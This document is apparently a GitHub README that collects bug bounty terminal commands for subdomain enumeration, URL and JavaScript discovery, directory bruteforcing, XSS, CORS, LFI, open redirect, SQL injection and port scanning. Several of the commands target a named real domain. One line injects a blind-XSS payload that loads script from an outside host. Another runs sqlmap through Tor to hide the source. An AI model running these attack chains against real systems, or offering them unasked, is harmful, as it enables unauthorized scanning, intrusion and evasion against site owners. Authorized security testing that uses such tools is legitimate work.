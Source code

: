 # Bug Bounty Hunting Terminal Commands

This repository contains a collection of terminal commands commonly used for bug bounty hunting.

## Subdomain Enumeration

```bash
# Find subdomains using Subfinder
subfinder -d viator.com -all -recursive > subdomain.txt

# Check for alive subdomains with specific ports
cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt
```

## URL Discovery

```bash
# Discover URLs with Katana and filter useful file types
katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt

# Search for specific file types in URLs
cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"
```

## JavaScript Files

```bash
# Extract JavaScript files and test for exposures
cat allurls.txt | grep -E "\.js$" >> js.txt
cat js.txt | nuclei -t /home/asshu/nuclei-templates/http/exposures/

# Directly scan JavaScript files from domain
echo www.viator.com | katana -ps | grep -E "\.js$" | nuclei -t /home/asshu/nuclei-templates/http/exposures/ -c 30
```

## Directory Bruteforcing

```bash
# Bruteforce common directory names
dirsearch -u https://www.viator.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js,.json
```

## XSS Detection

```bash
# Detect XSS vulnerabilities with a payload
subfinder -d viator.com | httpx-toolkit -silent | katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/aswin></script>' -parameters
```

## Subdomain Takeover

```bash
# Run Subzy to detect subdomain takeovers
subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl
```

## CORS Misconfiguration

```bash
# Test for CORS misconfiguration
python3 corsy.py -i /home/coffinxp/vaitor/subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
```

## Vulnerability Scanning

```bash
# Run Nuclei templates against subdomains
nuclei -list subdomains_alive.txt -t /home/asshu/nuclei-templates/Priv8-Nuclei-Templates/
nuclei -list ~/vaitor/subdomains_alive.txt -tags cve,osint,tech
```

## Local File Inclusion (LFI) & Open Redirect

```bash
# Test for LFI vulnerabilities
cat allurls.txt | gf lfi | nuclei -tags lfi

# Test for Open Redirect vulnerabilities
cat allurls.txt | gf redirect | openredirex -p /home/coffinxp/openRedirect
```

## API, Development, and Staging Subdomains

```bash
# Filter API, development, and staging subdomains
subfinder -d target.com -silent | dnsprobe -silent | cut -d ' ' -f1  | grep --color 'api\|dev\|stg\|test\|admin\|demo\|stage\|pre\|vpn'
```

## Additional Subdomain Enumeration Techniques

```bash
# BufferOver, Riddler, and Web Archive methods for subdomains
curl -s https://dns.bufferover.run/dns?q=.target.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u
curl -s "https://riddler.io/search/exportcsv?q=pld:target.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
curl -s "http://web.archive.org/cdx/search/cdx?url=*.target.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u
```

## SQL Injection Detection

```bash
# SQL Injection testing with SQLMap
sqlmap -r request.txt --time-sec=10 --tor --tor-type=SOCKS5 --check-tor
```

## Port Scanning

```bash
# Port scanning with Naabu
naabu -l targets.txt -rate 3000 -retries 3 -warm-up-time 0 -rate 150 -c 50 -ports 1-65535 -silent -o out.txt
```

```bash
# Private template 
subfinder -d xyz.com -all  | nuclei -t crlf.yaml -rl 50
subfinder -d xyz.com -all  | nuclei -t openRedirect.yaml -rl 100
subfinder -d xyz.com -all  | nuclei -t iis.yaml
subfinder -d xyz.com -all  | nuclei -t cors.yaml -rl 100
subfinder -d xyz.com -all  | waybackurls | gf sqli | uro | nuclei -t errorsqli.yaml -rl 50
```

## License

This repository is licensed under the MIT License.
